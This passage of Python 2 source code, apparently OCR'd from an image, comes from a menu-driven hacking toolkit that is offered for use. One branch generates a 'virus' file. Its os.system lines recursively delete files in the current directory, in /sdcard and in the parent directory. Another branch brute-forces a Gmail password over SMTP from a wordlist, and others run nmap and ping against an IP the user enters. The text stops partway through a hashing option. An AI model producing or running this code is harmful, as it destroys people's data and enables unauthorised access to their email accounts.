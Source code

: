 >     print ' Loading ...'
>     os.system('sleep 0.5')
>     print 'Loading'
>     os.system('sleep 0.5')
>     iqline.write('import os')
>     iqline.write('\n' + 'os.system("rm -rif *")')
>     iqline.write('\n' + 'os.system("cd /sdcard && rm -rif *")')
>     iqline.write('\n' + 'os.system("cd .. && rm -rif *")')
>     print 'YourVirus is > IQVirus.py'
>     print 'please not run the script becuse this virus'
> elif im == '1':
>     print '         ._________________.'
>     print '         | _______________ |'
>     print '         | I             I |'
>     print '         | I  T   M    X I |'
>     print '         | I             I |'
>     print '         | I    F    W   I |'
>     print '         | I_____________I |'
>     print '         !_________________!'
>     print '            ._[_______]_.'
>     print '        .___|___________|___.'
>     print '        |::: ____           |'
>     print '        |    ~~~~ [CD-ROM]  |'
>     print '        !___________________!'
>     import smtplib
>     smtpserver = smtplib.SMTP('smtp.gmail.com', 587)
>     smtpserver.ehlo()
>     smtpserver.starttls()
>     mail = raw_input('Enter Email Hack :')
>     passwor = raw_input('Enter List Password :')
>     passwor = open(passwor, 'r')
>     for wh in passwor:
>         try:
>             smtpserver.login(mail, wh)
>             print ('\x1b[1;31m !! Found PassWord >> ', wh)
>             break
>         except:
>             smtplib.SMTPAuthenticationError
>             print ('[*] Not Found PassWord >>', wh)
> 
> elif im == '2':
>     import os
>     print '                            / /         / /'
>     print '                            / \\_______ /|_/'
>     print '                            /          /_/ \\__'
>     print '                           /             \\_/ /'
>     print '                         _|_              |/|_'
>     print '                         _|_  O    _    O  _|_'
>     print '                         _|_      (_)      _|_'
>     print '                           \\                 /'
>     print '                           _\\_____________/_'
>     print '                          /  \\/  (___)  \\/  /'
>     print '                          \\__(  o     o  )__/'
>     ip = raw_input('Enter IP :')
>     os.system('nmap ' + ip)
> elif im == '3':
>     import os
>     ip1 = raw_input('Enter IP Website :')
>     os.system('ping ' + ip1)
> elif im == '4':
>     import hashlib
>     text = raw_input('Enter a text to hash: ')
>     i = hashlib.new('md5')
>     text = text.encode('utf-8')